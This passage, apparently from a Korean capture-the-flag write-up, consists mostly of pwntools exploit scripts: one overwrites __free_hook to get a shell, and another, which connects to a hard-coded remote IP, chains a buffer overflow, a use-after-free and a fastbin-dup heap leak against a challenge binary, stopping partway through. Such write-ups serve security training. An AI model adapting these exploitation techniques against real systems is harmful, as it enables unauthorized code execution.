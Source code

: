 ```python
    p.recvuntil('> ')
    p.sendline('5')
    p.recvuntil(': ')
    p.sendline("A"*16)
    p.sendline('1')
    Apply('/bin/sh','/bin/sh')
    Edit(0, p32(0) + p64(libcbase + libc.symbols['__free_hook'] - 60))
    Edit(3, p64(oneshot))
    p.interactive()
```

Flag : `FLAG{E4SY_0ff-by-0n3!}`



### R00T_SCHool

level1 bof

level2 uaf

level3 fastbin dup

하는 간단한 문제다.

````python
from pwn import *

def wrap(data):
    p.recvuntil('Input: ')
    p.sendline(data)

p = remote('222.110.147.52',1009)#process('./R00T_SCHool')
elf = ELF('./R00T_SCHool')
libc = elf.libc

### LEVEL 1
wrap("A"*(0x30 - 0x20) + "B")


### LEVEL 2
wrap('2')
wrap('1')
wrap("A"*16 + p64(0x400AB2))
wrap('3')

### LEVEL3

## LEAK
wrap('2')
p.recvuntil('idx: ')
p.sendline('0')
p.recvuntil('size: ')
p.sendline('256')
p.recvuntil('data: ')
p.send("A")
wrap('2')
p.recvuntil('idx: ')
p.sendline('1')
p.recvuntil('size: ')
p.sendline('256')
p.recvuntil('data: ')
p.send("A")
wrap('3')
p.recvuntil('idx: ')
p.sendline('0')
````